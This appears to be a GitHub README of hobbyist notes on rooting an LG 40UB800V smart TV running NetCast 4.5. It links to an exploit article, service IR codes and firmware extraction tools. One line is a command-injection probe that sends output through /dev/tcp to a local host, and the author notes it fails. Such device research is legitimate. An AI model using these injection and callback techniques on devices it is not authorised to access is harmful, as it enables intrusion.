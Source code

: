 # lg-40ub800v
Exploring NetCast4.5 on lg 40ub800v

Exploit of a similar model:

https://www.encrypted.at/remote-root-shell-on-lg-tv-2013-netcast-models/

Service Remote IR File:

https://github.com/logickworkshop/Flipper-IRDB/blob/main/TVs/LG/LG_MKJ39170828_Service.ir

Charriot Endpoint is startable

Exploit from article above does not work

Thought about something like this:



Serial adapter(?):

you can connect a PL2303-based USB/serial adapter
although it may require specific VID/PID (aten UC232)

Testing TCP Connections?

Maybe this works?

```
"Hi from LGTV at $(uname -n)" 2>/dev/null > /dev/tcp/192.168.178.123/8989"
```

TIL it won't, thats a bash feature

LG Opensource about a similar model with NetCast4.5

https://opensource.lge.com/product/list?page=&keyword=netcast4.5&schType=

(Click on the Notice Icon)

Downloaded firmware from LG Page https://gscs-b2c.lge.com/downloadFile?fileId=TChspcUESxIee32k8JuGQ

binwalk can't find anything, seems to be encrypted

but hey, there is https://github.com/openlgtv/epk2extract - maybe this is worth a try :)
